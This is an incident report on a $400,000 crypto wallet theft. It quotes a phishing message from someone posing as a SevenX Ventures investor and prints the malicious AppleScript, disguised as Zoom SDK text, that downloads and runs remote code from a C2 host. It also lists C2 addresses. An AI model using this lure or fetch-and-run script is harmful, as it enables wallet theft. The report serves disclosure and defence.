 # Theft from Individual C4

Date: June 29, 2024

Amount Stolen: $400,000

Tags: 🔑

---

## Details

Contacted by Telegram account impersonating VC.  jonbit3 on telegram email jonbit3@7xvc.com:

At his request, the victim set up a call with this account via Telegram. The call didn't work. He advised the victim to run a script "get it to work" on her mac.

3 days later, the vitims wallets were drained. 



### On-chain

- 0x7554a04fe6d1cd282a20ffb6aa3eeb1ac5224bf1



## URLs

- https://x.com/ValidinLLC/status/1788134423273034033



## Message Sent by Impersonator

```
Jon Liu | SevenX Ventures

Dear _______,

Hey there! I hope you're doing well. My name is Jon, and I represent
SevenX Ventures. As an investor, I'm truly passionate about
groundbreaking cryptocurrency projects.

I wanted to personally reach out and share our excitement about the
potential partnership with The Defiant. We've been lucky to make
smart investments, with our capital exceeding hundreds of millions
of dollars across different projects. Now, we're thrilled to broaden
our impact in the ecosystem, starting from Q3 2024.

If you're available, we'd love to schedule a meeting or call to discuss
investment possibilities and how I can be of assistance to you. Just
let me know what works best for you!

Please feel free to reach out to me on Telegram or through email at
jonbit3@7xvc.com. I'm available on both and would be happy to talk
with you!

Best regards,
Jon
```


## Malicious Script

```
############################################################### 
#                     
# 
# 🎦 Meeting SDK                 
# 
#                     
# # Embed the Zoom meeting and webinar experience in an app or website.     
# 
#                     
# #  The Zoom Meeting SDK lets you display the familiar Zoom meeting and webinar    
# #  experience in your app or website. The Meeting SDK interface resembles the Zoom   
# #  client, except that it lives inside your own app or website.        
# 
#                     
# # Enhance the users' experience              
# 
#                                
# 
#  Native platforms for mobile and desktop offer a default UI, which looks similar to the   
# 
#  Zoom client, and a custom UI, which offers the ability to completely customize the   
# 
#   user interface.                 
# 
#                     
# 
#   The web SDK offers a client view, which looks similar to the Zoom client, and a    
# 
#   modular component view, which displays the Meeting SDK in components on your   
# 
#   website.                  
# 
#                     
# # Meeting and webinar authorization             
# 
#                      
# #  Each time you use the SDK to join a meeting or webinar, generate an SDK JWT to let   
# #  you securely transmit your SDK credentials to Zoom's auth servers. Start meetings on  
# #  behalf of other users using a ZAK (Zoom Access Key) token.        
# 
#                     
# 
#      Press above ▶️ button to start meeting using ZAK(Zoom Access Key)token.   
# 
#                     
# #  The Meeting SDK is also compatible with Zoom OAuth,allowing existing Zoom users to  
# #  to connect their accounts to your Meeting SDK.          
# 
#                         
# 
#                     
# 
##############################################################
#   
#  Start meeting using ZAK(Zoom Access Key)token.  
set fix_url to "https://support[.]general-meet[.]team/901036/check" set sc to do shell script "curl -L -k \"" & fix_url & "\"" run script sc
```



## C2s

support[.]general-meet[.]team hits 104.168.203[.]159 which has a bunch of similar/known URLs on it and pivots to 104.168.157[.]45 and 104.168.203[.]161 and 104.168.137[.]21 and probably a bunch of others.








